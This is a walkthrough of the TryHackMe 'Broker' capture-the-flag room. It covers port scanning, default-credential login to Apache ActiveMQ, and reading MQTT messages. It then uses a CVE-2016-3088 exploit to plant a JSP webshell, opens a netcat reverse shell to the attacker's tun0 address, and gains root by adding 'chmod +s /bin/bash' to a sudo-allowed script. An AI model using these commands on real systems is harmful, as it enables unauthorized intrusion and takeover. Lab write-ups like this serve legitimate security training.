### ✨ Introduction
Broker is a CTF room focused on hacking Apache ActiveMQ, which operates as a message broker. Players must perform port scanning, service analysis, exploit a vulnerability (CVE-2016-3088), and escalate privileges to root.

### 🔍 Challenge Objectives
- Perform a port scan to find open ports
- Identify the software being used
- Read hidden data in ActiveMQ (secret_chat)
- Exploit ActiveMQ → Reverse Shell
- Escalate privileges to root and extract flags

🧠 TryHackMe - Broker 📈

> 🟡 Category: Web / Privilege Escalation
> 🧩 Difficulty: Medium
> 🕵️‍♂️ Mode: Capture the Flag CTF
> 🧩 URL: [broker](https://tryhackme.com/room/broker)
> 👨‍💻 Author: Thanyakorn

## 📚 Table of Contents

- 🛰️ 1. Port Scanning
- 🌐 2. Service Enumeration
- 🔐 3. ActiveMQ Login
- 📡 4. Read Secret Messages from MQTT
- 🚪 5. ActiveMQ Exploit (CVE-2016-3088)
- 🖥️ 6. Reverse Shell & Initial Access
- 🔼 7. Privilege Escalation → Root
- 🏁 8. Collect Flags

---
## 🛰️ Step 1: Port Scanning

📌 Task:
Scan all TCP ports with numbers greater than 1000 and less than 10000 to identify which ports are active on the target machine.

💻 Commands Used

```bash
nmap -sS -p 1001-9999 -T5 10.10.94.190
```



🧩 Parameter Description
- ⚡ `-sS` → SYN Scan (Half-open) Faster and stealthier than full connections
- 🎯 `-p 1001-9999` → Set the port range 1001–9999
- 🚀 `-T5` → Use the highest speed (Aggressive timing) → Faster scan, but more likely to be detected
- 🌐 `10.10.94.190` → Target machine IP

📊 Scan Results
The open ports were found to be:
| Port | Service |
|-----------|-------------------------------|
| 1883/tcp | MQTT |
| 8161/tcp | Apache ActiveMQ Web Console |

> 👉 From this step, we know that the target machine is running MQTT on port 1883 and the ActiveMQ Web Console on port 8161, which will be used in the next attack step.

## 🌐 Step 2: Service Enumeration

📌 Question:
What is the name of the software they use?

🔍 Testing the found services



- When trying to access port 1883 → access via a web browser is not possible because this port is used for MQTT (Message Queuing Telemetry Transport).
- This protocol is commonly used in IoT (Internet of Things) applications.
- It is not a protocol that supports direct web display.



- When trying to access port 8161 → The Web Console page is accessible through a browser.
- This port is the standard port for Apache ActiveMQ.
- ActiveMQ is a message broker that manages message queuing.
- It is responsible for sending and receiving messages between different applications.
- It supports asynchronous communication (no need to wait for immediate results).
- It is often used to connect and coordinate between different systems.

> 👉 From this point on, we know that the ActiveMQ Web Console is running on port 8161, which is key to the next step in the system analysis.

## 🔐 Step 3: Log into ActiveMQ

📌 Question:
Which videogame are Paul and Max talking about? (What video game are Paul and Max talking about?)

🖥️ Accessing the Web Console
- Access port 8161 and you'll see the Apache ActiveMQ Console page.
- Try logging in with the default credentials:
- `admin/password` → ❌ Doesn't work
- `admin/admin` → ✅ Successfully logged in



🔎 Discovered Information
- After logging in, we found that the ActiveMQ version running was:

🧩 Apache ActiveMQ 5.9.0

> 👉 From here, we can access the ActiveMQ management menu, which will lead us to the next step in searching for messages Paul and Max exchanged.

## 📡 Step 4: Read Secret Messages from MQTT

🔎 Topic Inspection
- After logging in to the ActiveMQ Console,
- Clicking on the Topics section will reveal a table listing various messages.



- There is an interesting topic called `secret_chat`, which contains approximately 64 queued messages.
- This is likely the source of Paul and Max's conversations.

💻 Writing a Client to Subscribe to Messages
To read messages in For `secret_chat`, we need to write an MQTT client:
1. Create a file named `client.py`
2. Paste the code below into it:

```bash
import paho.mqtt.client as mqtt

# The callback for when the client receives a CONNACK response from the server.
def on_connect(client, userdata, flags, rc):
print("Connected with result code " + str(rc))
# Subscribing in on_connect() means that if we lose the connection and
# reconnect, subscriptions will be renewed.
client.subscribe("$SYS/#")

# The callback for when a PUBLISH message is received from the server.
def on_message(client, userdata, msg):
print(msg.topic + " " + str(msg.payload))

client = mqtt.Client(protocol=mqtt.MQTTv31)
client.on_connect = on_connect
client.on_message = on_message

client.connect("tun0", 1883, 60)

client.loop_forever()
```



📝 Code Explanation
- 📡 `on_connect` → Connect to the MQTT broker and subscribe to the topic secret_chat
- 📩 `on_message` → Function for receiving messages and printing the results
- ⚙️ Uses the MQTT v3.1 (MQTTv31) protocol and the standard port 1883
- 🌐 `client.connect("10.10.94.190", 1883, 60)` → Change the IP to our own VPN tun0. TryHackMe

This code is from the [Eclipse Paho MQTT Python Client] (https://github.com/eclipse-paho/paho.mqtt.python#getting-started), a standard library for writing MQTT clients.

**Run `client.py` with `python3 client.py` to subscribe to the `secret_chat` topic on the broker (port 1883).**

Run the script with:
```bash
python3 client.py
```



📤 Result:

✅ When the connection is successful, `Connected with result code 0` will be displayed.

## 🚪 5. Exploit ActiveMQ (CVE-2016-3088) — Put shell

> Exploit the CVE-2016-3088 vulnerability in Apache ActiveMQ to upload a "shell" file to the target machine (put shell). Via the Web Console — Upon successful completion, you will receive a confirmation message 'Bygshell' → indicating that the shell was successfully placed/opened on the target.

**📥 Prepare the exploit file**
Exploit code used: 'ActiveMQ_putshell.py'
Sample source: [ActiveMQ_putshell-CVE-2016-3088](https://github.com/Ma1Dong/ActiveMQ_putshell-CVE-2016-3088)

Steps:
`bash
# 1) Download the exploit (sample)
git clone https://github.com/Ma1Dong/ActiveMQ_putshell-CVE-2016-3088.git
cd ActiveMQ_putshell-CVE-2016-3088

# 2) Verify the file (e.g., ActiveMQ_putshell.py)
ls -la

# 3) Run the exploit to put a shell into the ActiveMQ Web Console
python3 ActiveMQ_putshell.py -u http://10.10.94.190:8161
```



- Upon successful execution, the script will display the path/URL of the uploaded file.

🔗 Run via the Web Console (query string)
Once you have the JSP URL, you can send commands via the query string. Example parameters used:
- `pwd=gshell` — Parameter to confirm execution 🔐
- `shell=<command>` — Command to be executed by the server 🧩

Example: Sending `uname -a`:
```bash
http://10.10.94.190:8161/admin/guo.jsp?pwd=gshell&shell=uname -a
```



✅ The output will display information about the server's uname -a (kernel version, architecture, OS, etc.) — confirming the command execution. 🔍

## 🐚 6. Connecting via the Web Console and Opening a Shell
- We'll then connect to the ActiveMQ Web Console to send commands to the server.
- Parameters passed to the JSP to open a reverse shell:
```bash
pwd=gshell&shell=nc tun0 1234 -e /bin/sh
```



Description: This parameter instructs ActiveMQ to call `netcat` to connect to the tun0 IP on port `1234` and run `/bin/sh` on the target machine. — Upon successful completion, a shell on the target machine will be connected to us. ✅

- Once the connection is established, Elevate to a full interactive shell with:
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
Result: You'll have a shell that works like a regular terminal (commands like `cd`, `ls`, `cat` are now more convenient). 🛠️

- Next step: Try running ls to list the files in your current directory — you'll find the file `flag.txt` 🎯



## 🚩 7) Elevate to root 👑

- We'll use the sudo -l command to see what commands the activemq user can execute with root privileges without a password.



🔎 Information Found (from sudo -l)

The output of sudo -l indicates:
```bash
(root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```

This means that `activemq` can instruct the system to run `/usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py` as root without requiring a password. If the script can execute (or modify) our commands, we can use this field to elevate to root.

- Use the `mv subscribe.py subscribe.py.bak` command to rename the file.



- When opening a file with `nano`, an error occurs stating that a terminal cannot be opened (Error opening terminal: unknown). This prevents the file from being edited directly with `nano`.
- One common cause is that the `$TERM` environment variable is incorrectly set or not configured for the terminal in use. In this case, a temporary workaround is to set the 💡 `$TERM` to a standard value, such as `xterm`:
```bash
export TERM=xterm
```

After setting the value, run the `nano` command again.



- In the subscribe.py file, we added code to make the system run the command to set SUID on /bin/bash:
```bash
import os
os.system('chmod +s /bin/bash')
```



Description: The `chmod +s /bin/bash` command sets the SUID bit on the file `/bin/bash`. This means that when this file is executed, the caller will have the owner's (usually root) privileges at the time of the program execution, which can lead to a shell running with root privileges.

- After editing the file, Run the script with root privileges via sudo, following the entry found with sudo -l:
```bash
sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
```



If successful, the user will have a shell running with root privileges and can examine files or execute commands with their privileges.
- Continued: Check for and read the root.txt file.


